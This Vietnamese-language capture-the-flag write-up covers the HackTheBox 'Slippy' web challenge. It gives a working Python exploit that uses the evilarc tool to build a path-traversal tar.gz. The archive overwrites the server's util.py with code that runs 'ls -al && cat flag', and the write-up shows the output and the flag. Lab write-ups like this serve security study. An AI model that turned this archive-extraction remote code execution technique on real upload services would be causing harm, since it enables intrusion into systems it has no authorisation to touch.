 # __Slippy__
</br> [source](https://github.com/magnetohvcs/CTF/raw/main/ctf-hackthebox/Uni%20CTF%202021%20Quals/src/web_slippy.zip)

 __tóm tắt__ : cố gắng upload file tar.gz để lấy flag, ta không thể dùng symlinks để cố gắng truy cập file flag mà ta sẽ dùng [công cụ này](https://github.com/ptoomey3/evilarc). 
 
 </br> Đầu tiên tải [evilary](https://github.com/ptoomey3/evilarc) và sau đó chạy đoạn mã này
 
 ```
 import requests, os, json, time
s = requests.session()

ip_port = '64.227.40.93:32528' # change this
url = 'http://%s/api/unslippy'%ip_port
util = '''
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    return [os.popen('ls -al && cat flag').read()]
''' 

open('util.py','w').write(util)
path_evilary = '~/evilarc/evilarc.py' # change  this
os.system('rm flag.tar.gz ; python2 %s -d 3 -o u -f flag.tar.gz util.py'%path_evilary)
s.post(url,files={'file':open('flag.tar.gz','rb')})
time.sleep(2)
res = s.post(url,files={'file':open('flag.tar.gz','rb')}).text
print(json.loads(res)['list'][0])

# HTB{i_slipped_my_way_to_rce}
```
__output__
```
Creating flag.tar.gz containing ../../../util.py
total 28
drwxr-xr-x    1 root     root          4096 Nov 16 23:46 .
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 ..
drwxr-xr-x    1 root     root          4096 Nov 23 06:25 application
-rw-r--r--    1 root     root            29 Nov 16 10:45 flag
-rw-r--r--    1 root     root            98 Nov 15 13:22 run.py
HTB{i_slipped_my_way_to_rce}
```
